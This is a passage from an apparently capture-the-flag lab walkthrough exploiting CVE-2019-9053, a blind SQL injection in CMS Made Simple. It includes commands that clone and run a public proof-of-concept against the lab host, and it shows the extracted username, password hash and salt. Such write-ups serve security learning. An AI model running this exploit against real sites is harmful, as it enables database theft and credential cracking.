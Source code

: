 
## 💥 Phase 3 — CVE-2019-9053 Exploitation (SQL Injection)

### Vulnerability Analysis

<div class="bg-red-50 dark:bg-red-900/20 p-6 rounded-xl border-l-4 border-red-500 my-4">
    <h4 class="text-xl font-bold text-red-600 dark:text-red-400 mb-3 flex items-center">
        <i class="fas fa-bug mr-2"></i>CVE-2019-9053 - SQL Injection
    </h4>
    <div class="space-y-2 text-gray-700 dark:text-gray-300">
        <div class="grid md:grid-cols-2 gap-4">
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Affected Versions:</span> CMS Made Simple ≤ 2.2.10
            </div>
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Type:</span> Blind Time-Based SQLi
            </div>
        </div>
        <div>
            <span class="font-semibold text-red-600 dark:text-red-400">CVSS Score:</span> 9.8 (Critical)
        </div>
        <div class="mt-4">
            <span class="font-semibold text-red-600 dark:text-red-400">Description:</span><br>
            A blind time-based SQL injection vulnerability allows extracting sensitive information from the database via manipulation of an unfiltered parameter.
        </div>
    </div>
</div>

### Exploitation

Downloading the PoC:

```bash
git clone https://github.com/ELIZEUOPAIN/CVE-2019-9053-CMS-Made-Simple-2.2.10---SQL-Injection-Exploit
cd CVE-2019-9053-CMS-Made-Simple-2.2.10---SQL-Injection-Exploit
python cve.py -u http://10.10.10.138/writeup/ --crack -w best110.txt
```

<div class="bg-white dark:bg-dark-navbar p-6 rounded-xl shadow-lg my-4 border-l-4 border-green-500">
    <h4 class="text-xl font-bold mb-4 text-green-600 dark:text-green-400 flex items-center">
        <i class="fas fa-key mr-2"></i>Extracted Information
    </h4>
    <div class="bg-gray-100 dark:bg-gray-800 p-4 rounded font-mono text-sm space-y-1">
        <div class="text-gray-700 dark:text-gray-300">
            <span class="text-blue-600 dark:text-blue-400">Username:</span> <span class="text-green-600 dark:text-green-400">jkr</span>
        </div>
        <div class="text-gray-700 dark:text-gray-300">
            <span class="text-blue-600 dark:text-blue-400">Email:</span> <span class="text-green-600 dark:text-green-400">jkr@writeup.htb</span>
        </div>
        <div class="text-gray-700 dark:text-gray-300">
            <span class="text-blue-600 dark:text-blue-400">Hash:</span> <span class="text-orange-600 dark:text-orange-400">62def4866937f08cc13bab43bb14e6f7</span>
        </div>
        <div class="text-gray-700 dark:text-gray-300">
            <span class="text-blue-600 dark:text-blue-400">Salt:</span> <span class="text-purple-600 dark:text-purple-400">5a599ef579066807</span>
        </div>
    </div>
</div>